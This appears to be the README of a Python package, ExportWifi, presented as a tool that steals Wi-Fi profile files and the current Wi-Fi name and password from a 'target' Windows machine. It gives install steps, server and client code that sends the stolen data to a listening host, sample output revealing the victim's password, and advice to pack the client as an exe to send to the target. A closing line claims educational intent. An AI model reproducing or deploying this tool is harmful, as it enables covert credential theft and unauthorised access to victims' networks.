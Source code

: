ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target.
Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`pip install ExportWifi`

In your Terminal

HOW DOES ExportWifi WORK?
========================

The ip address and the port number should be the same so the connection will work 

For example:
===========
-----------

Server
------
```python
import ExportWifi as wifi

server = wifi.WlanServer("127.0.0.1", 1234)
server.start()
```

Client
-----
````python
import ExportWifi as wifi

client = wifi.WlanClient("127.0.0.1", 1234)
client.start()
#The User can't stop tkinter for 30 seconds and is forced to fill everything 
````

All the Wi-Fi Files will be saved to your directory where the server is located

Output of Server
------
````python
"""
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here

"""
````

Additional
==========
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
